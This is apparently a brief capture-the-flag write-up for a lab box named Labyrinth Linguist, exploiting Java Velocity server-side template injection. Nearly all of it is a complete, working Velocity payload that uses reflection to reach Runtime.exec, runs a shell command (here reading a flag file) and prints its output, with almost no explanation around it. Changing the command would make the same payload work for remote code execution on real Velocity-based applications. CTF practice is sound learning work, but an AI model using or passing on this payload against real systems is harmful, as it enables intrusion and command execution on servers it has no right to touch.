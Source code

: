 # OREXIMUS NOTES

## BOX NAME: Labyrinth Linguist

### Main Vulnerability: Java Velocity SSTI

- Allows us to execute command through it!

**Payload Used**:

```
#set($s="")
#set($stringClass=$s.getClass())
#set($stringBuilderClass=$stringClass.forName("java.lang.StringBuilder"))
#set($inputStreamClass=$stringClass.forName("java.io.InputStream"))
#set($readerClass=$stringClass.forName("java.io.Reader"))
#set($inputStreamReaderClass=$stringClass.forName("java.io.InputStreamReader"))
#set($bufferedReaderClass=$stringClass.forName("java.io.BufferedReader"))
#set($collectorsClass=$stringClass.forName("java.util.stream.Collectors"))
#set($systemClass=$stringClass.forName("java.lang.System"))
#set($stringBuilderConstructor=$stringBuilderClass.getConstructor())
#set($inputStreamReaderConstructor=$inputStreamReaderClass.getConstructor($inputStreamClass))
#set($bufferedReaderConstructor=$bufferedReaderClass.getConstructor($readerClass))

#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("cat  /flagcf32a504be.txt"))
#set($null=$process.waitFor() )

#set($inputStream=$process.getInputStream())
#set($inputStreamReader=$inputStreamReaderConstructor.newInstance($inputStream))
#set($bufferedReader=$bufferedReaderConstructor.newInstance($inputStreamReader))
#set($stringBuilder=$stringBuilderConstructor.newInstance())

#set($output=$bufferedReader.lines().collect($collectorsClass.joining($systemClass.lineSeparator())))

$output
```

- Which outputted the **flag.txt**

**Screenshot**:

![](imgs/web_easy_01.png)

- Resources:
